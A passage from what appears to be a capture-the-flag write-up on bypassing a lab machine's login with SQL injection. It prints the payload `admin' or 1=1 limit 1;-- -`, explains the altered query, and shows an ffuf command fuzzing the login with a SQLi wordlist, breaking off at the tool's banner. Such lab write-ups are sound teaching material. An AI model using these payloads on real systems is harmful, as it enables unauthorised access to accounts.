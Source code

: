 #### Manually

Whenever I see a login form and say “I tried some basic SQL injections but didn’t find anything”, one of the things I always try is a username of `admin' or 1=1 limit 1;-- -`. This proposes that the server is doing an SQL query that looks something like:

```

select * from users where username = '[username]' and password = hash('[password]');

```

The injection would make it:

```

select * from users where username = 'admin' or 1=1 limit 1;-- -' and password = [hash];

```

`limit 1` is necessary if the code is checking for exactly one row returned, which is best practice. Sometime it may just check for any returns, or there may only be one account (less common in real life, but not uncommon in CTFs).

On submitting that username, it works, first showing a redirect page:

![image-20210904053030686](https://0xdfimages.gitlab.io/img/image-20210904053030686.png)

And then a dashboard:

[![image-20210904053048388](https://0xdfimages.gitlab.io/img/image-20210904053048388.png)](https://0xdfimages.gitlab.io/img/image-20210904053048388.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20210904053048388.png)

#### By Fuzzing

If I didn’t want to manually test these kinds of SQL injections, there’s a neat set of wordlists in [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi) for fuzzing SQL that can be used with `ffuf` or `wfuzz`:

![image-20210904054358666](https://0xdfimages.gitlab.io/img/image-20210904054358666.png)

I’ll run `ffuf` with the following options:
- `-X POST` - POST request
- `-u http://10.10.11.101/administrative` - url to send to
- `-d 'uname=FUZZ&password=0xdf'` - data to send, with `FUZZ` being what gets replaced with lines from the wordlist
- ` -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt` - the wordlist
- `-H "Content-Type: application/x-www-form-urlencoded"` - set the header like in the actual request

On running this, there’s 300+ lines of output. I can see that the size of each varies, but the default case seems to have 206 words. I’ll add one more option, `--fw 206` to hide those lines. What remains are payloads that do something different:

```

oxdf@parrot$ ffuf -X POST -u http://10.10.11.101/administrative -d 'uname=FUZZ&password=0xdf' -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -x http://127.0.0.1:8080 -H "Content-Type: application/x-www-form-urlencoded" --fw 206

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
```